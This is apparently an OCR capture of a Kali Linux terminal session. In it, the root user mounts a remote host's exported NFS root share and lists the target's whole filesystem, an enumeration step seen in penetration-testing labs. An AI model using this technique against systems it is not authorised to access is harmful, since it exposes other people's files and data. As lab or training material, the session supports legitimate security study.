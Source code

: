 root@kali:~# ls
core  Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos
root@kali:~# mkdir /tmp/ifa
root@kali:~# cd /tmp/ifa
root@kali:/tmp/ifa# mou
mount                 mount.lowntfs-3g      mount.nfs4            mount.ntfs-3g         mount-shared-folders  mount.vmhgfs
mount.fuse            mount.nfs             mount.ntfs            mountpoint            mountstats            mousetweaks
root@kali:/tmp/ifa# mou
mount                 mount.lowntfs-3g      mount.nfs4            mount.ntfs-3g         mount-shared-folders  mount.vmhgfs
mount.fuse            mount.nfs             mount.ntfs            mountpoint            mountstats            mousetweaks
root@kali:/tmp/ifa# mount -t nfs 192.168.152.135:/
mount: can't find 192.168.152.135:/ in /etc/fstab
root@kali:/tmp/ifa# mount -t nfs 192.168.152.135:/ /tmp/ifa/
root@kali:/tmp/ifa# ls
root@kali:/tmp/ifa# ls -Al
total 0
root@kali:/tmp/ifa# ls -al
total 8
drwxr-xr-x  2 root root 4096 Mar 30 12:11 .
drwxrwxrwt 13 root root 4096 Mar 30 12:11 ..
root@kali:/tmp/ifa#


root@kali:/tmp/ifa# ls -la /tmp/ifa/
total 104
drwxr-xr-x 21 root root  4096 May 20  2012 .
drwxrwxrwt 13 root root  4096 Mar 30 12:15 ..
drwxr-xr-x  2 root root  4096 May 13  2012 bin
drwxr-xr-x  3 root root  4096 Apr 28  2010 boot
lrwxrwxrwx  1 root root    11 Apr 28  2010 cdrom -> media/cdrom
drwxr-xr-x  2 root root  4096 Apr 28  2010 dev
drwxr-xr-x 94 root root  4096 Mar 30 10:04 etc
drwxr-xr-x  6 root root  4096 Apr 16  2010 home
drwxr-xr-x  2 root root  4096 Mar 16  2010 initrd
lrwxrwxrwx  1 root root    32 Apr 28  2010 initrd.img -> boot/initrd.img-2.6.24-16-server
drwxr-xr-x 13 root root  4096 May 13  2012 lib
drwx------  2 root root 16384 Mar 16  2010 lost+found
drwxr-xr-x  4 root root  4096 Mar 16  2010 media
drwxr-xr-x  3 root root  4096 Apr 28  2010 mnt
-rw-------  1 root root  7984 Mar 30 08:09 nohup.out
drwxr-xr-x  2 root root  4096 Mar 16  2010 opt
dr-xr-xr-x  2 root root  4096 Apr 28  2010 proc
drwxr-xr-x 13 root root  4096 Mar 30 08:09 root
drwxr-xr-x  2 root root  4096 May 13  2012 sbin
drwxr-xr-x  2 root root  4096 Mar 16  2010 srv
drwxr-xr-x  2 root root  4096 Apr 28  2010 sys
drwxrwxrwt  4 root root  4096 Mar 30 08:10 tmp
drwxr-xr-x 12 root root  4096 Apr 28  2010 usr
drwxr-xr-x 14 root root  4096 Mar 17  2010 var
lrwxrwxrwx  1 root root    29 Apr 28  2010 vmlinuz -> boot/vmlinuz-2.6.24-16-server
root@kali:/tmp/ifa#
